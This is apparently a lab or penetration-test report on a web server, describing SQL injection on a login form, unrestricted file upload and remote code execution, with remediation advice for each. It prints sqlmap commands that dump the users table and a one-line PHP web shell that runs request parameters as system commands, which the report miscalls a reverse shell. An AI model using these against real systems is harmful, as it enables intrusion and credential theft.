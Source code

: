 # Vulnerability Report: Authenticated File Upload + SQL Injection in Web Application + RCE

**Severity**: Critical  
**Tools Used**: rustscan, Nikto, SQLMap, Netcat  
**Suspicious Activity Detection & Threat Actor Behavior Simulation**  
**CVE**: Custom Web Application Vulnerability
**Impact**: Remote Code Execution (RCE) via Web Shell  
**Affected Host**: Target Linux Web Server  
**Access Level Gained**: Remote shell with same privileges as web server process  

---

## 1. Vulnerability: SQL Injection on Login Page

**Risk Description**:  
A SQL Injection (SQLi) vulnerability was discovered in the `password` parameter of the login form. This allows an attacker to bypass authentication and extract sensitive data from the backend database.

**Exploitation Method**:
- Initial discovery through manual testing and confirmed using SQLMap.
  ![Screenshot 2025-05-30 230336](https://github.com/user-attachments/assets/2b691c47-a02e-47db-8b2b-e884e2648424)

  - SQLMap can be used now , because it is vulnerable by sqli by manual testing.
  ```bash
      sqlmap -u "http://192.168.1.45/admin" --data "username=admin&password=admin123" -p password --risk=3 --level=5 --batch
  ```

  ![Screenshot 2025-05-31 204224](https://github.com/user-attachments/assets/bac3fb25-9db2-4ad0-9045-bcb1d8645600)

  
  - SQLMap was used against the login endpoint by specifying the vulnerable parameters and dumped user credentials.
  
  ```bash
      sqlmap -u "http://192.168.1.45/admin" --data "username=admin&password=admin123" -p password -T users --dump --batch
  ```

  ![Screenshot 2025-05-31 204420](https://github.com/user-attachments/assets/cb14eb27-4781-4aaa-9a0d-59b3ee146c54)

  ![Screenshot 2025-05-31 204548](https://github.com/user-attachments/assets/2d6c0666-069e-48ae-bc5e-49b5fe7839bf)

  
**Recommendation**:
- Use parameterized queries (prepared statements) to prevent SQL injection.
- Validate all user inputs strictly.
- Implement a Web Application Firewall (WAF).
- Regularly update and patch all components of the web application stack.

---

## 2. Vulnerability: Unrestricted File Upload in Admin Panel

**Risk Description**:  
The admin interface allows uploading of files without proper validation or filtering of file extensions. This permits an attacker to upload and execute a web shell on the server.

**Exploitation Method**:
- Used valid credentials (gathered from SQLi) to log into the admin dashboard.
- Uploaded a PHP-based web shell by bypassing client-side file validation.
- Accessed the shell via its URL path, enabling arbitrary command execution.

**PHP Shell**:
 ![image](https://github.com/user-attachments/assets/ce4403a7-781f-41dc-aa93-61df724f5a5c)


![Screenshot 2025-05-31 211505](https://github.com/user-attachments/assets/d0255c20-dce6-4148-a152-5595500cc4ac)


**Recommendation**:
- Restrict uploads to specific safe file types (e.g., `.jpg`, `.png`).
- Validate file MIME types and extensions server-side.
- Store uploads in non-executable directories.
- Disable execution permission on uploaded files.
- Sanitize filenames and scan for malware signatures.

---

## 3. Vulnerability: Remote Code Execution via Reverse Shell

**Risk Description**:  
Using the uploaded PHP shell, an attacker can execute system commands. This leads to full remote code execution and shell access over the network.

**Exploitation Method**:
- Launched a reverse shell from the web shell to the attacker's listener.
- Netcat was used to establish a reverse connection back to the attacker.

  ![image](https://github.com/user-attachments/assets/33e5274a-76dc-49dc-b0c4-cb25c0236174)


**Payload**:
- Reverse shell: ```bash
                    <?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>
                 ```

  ![Screenshot 2025-05-31 211904](https://github.com/user-attachments/assets/fda305c9-4c7e-4620-b1ad-d1d50f675444)


**Impact**:
- Shell access with privileges of the web server user.
- Potential for lateral movement and further exploitation.

**Recommendation**:
- Prevent execution of user-uploaded content.
- Harden the web server configuration.
- Use AppArmor/SELinux to restrict what processes can do.
- Implement intrusion detection to monitor for reverse shell activity.
- Conduct regular audits and monitor logs for abnormal behaviors.

---
